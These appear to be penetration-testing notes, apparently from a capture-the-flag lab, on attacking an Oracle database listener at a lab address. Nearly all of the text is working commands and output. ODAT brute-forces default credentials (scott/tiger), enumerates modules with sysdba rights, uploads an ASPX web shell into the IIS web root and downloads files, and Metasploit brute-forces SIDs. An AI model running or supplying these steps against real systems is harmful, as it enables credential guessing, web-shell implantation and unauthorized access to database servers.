 ```
./odat-libc2.12-x86_64 passwordguesser -s 10.10.10.82 -d XE --accounts-file accounts/default.txt

[1] (10.10.10.82:1521): Searching valid accounts on the 10.10.10.82 server, port 1521
[+] Valid credentials found: scott/tiger. Continue...                                   ##################################################################                                         | ETA:  00:00:05 
100% |#############################################################################################################################################################################################| Time: 00:00:24 
[+] Accounts found on 10.10.10.82:1521/XE: 
scott/tiger

```

**use the the wordlist below for just the default accounts**

find vulnarable modules:

```
odat all -s 10.10.10.82 -d XE -U SCOTT -P tiger --sysdba
```

**Upload shell**

```
./odat-libc2.12-x86_64 dbmsadvisor -s 10.10.10.82 -d XE -U SCOTT -P tiger --sysdba --putFile C:\\inetpub\\wwwroot 0xdf.aspx /usr/share/webshells/aspx/cmdasp.aspx
```

#### Get files

```
./odat.py utlfile -s <IP> -d <SID> -U <username> -P <password> --getFile "C:/test" token.txt token.txt
```

### Metasploit

#### sid bruteforce:

```
msf auxiliary(admin/oracle/sid_brute) > run 

[*] 10.10.10.82:1521 - Starting brute force on 10.10.10.82, using sids from /usr/share/metasploit-framework/data/wordlists/sid.txt... 
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'XE' 
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'PLSExtProc' 
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'CLRExtProc' 
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID '' 
[*] 10.10.10.82:1521 - Done with brute force... 
[*] Auxiliary module execution completed 
```

#### tns version:

```
auxiliary/scanner/oracle/tnslsnr_version
```
